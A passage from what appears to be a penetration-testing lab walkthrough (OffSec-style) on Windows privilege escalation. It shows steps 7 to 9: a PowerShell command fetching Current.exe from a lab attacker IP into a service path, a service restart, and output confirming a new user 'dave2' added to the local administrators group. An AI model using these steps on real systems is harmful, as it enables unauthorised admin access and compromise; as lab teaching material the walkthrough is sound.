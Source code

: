 {% tab title="7. Transfer" %}
{% code overflow="wrap" %}
```powershell
> iwr -uri http://192.168.45.235/Current.exe -OutFile 'C:\Program Files\Enterprise Apps\Current.exe'
```
{% endcode %}
{% endtab %}

{% tab title="8. Exploit" %}
{% code overflow="wrap" %}
```powershell
PS C:\Users\steve> Start-Service GammaService
Start-Service : Service 'GammaService (GammaService)' cannot be started due to the following
error: Cannot start service GammaService on computer '.'.
At line:1 char:1
+ Start-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceControl
   ler) [Start-Service], ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCom
   mand
```
{% endcode %}
{% endtab %}

{% tab title="9. Confirm" %}
```powershell
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2 # user created!
<SNIP>

PS C:\Users\steve> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local # user added to the admin's group!
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
{% endtab %}
{% endtabs %}
